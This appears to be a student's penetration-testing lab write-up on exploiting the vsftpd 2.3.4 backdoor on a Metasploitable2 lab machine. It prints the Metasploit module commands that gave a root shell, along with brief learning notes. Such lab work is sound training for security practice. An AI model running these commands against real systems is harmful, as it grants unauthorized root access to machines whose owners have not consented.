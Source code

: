 
---

## ✅ Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


# Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)


## 🧠 Objective
Exploit a known backdoor vulnerability in the vsftpd 2.3.4 service to gain shell access.

---

## 🛠️ Tools
- Metasploit Framework
- Kali Linux

---

## 💣 Exploit Used
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
```

---

## Result
Successfully exploited vsftpd backdoor

Gained root shell on the target (Metasploitable2)

---

## What I Learned
Understood how to identify and target known CVEs

Practiced Metasploit module usage with precision

Experienced real-world post-exploitation workflow

===

## Screenshot


---

## Date
23 May 2025

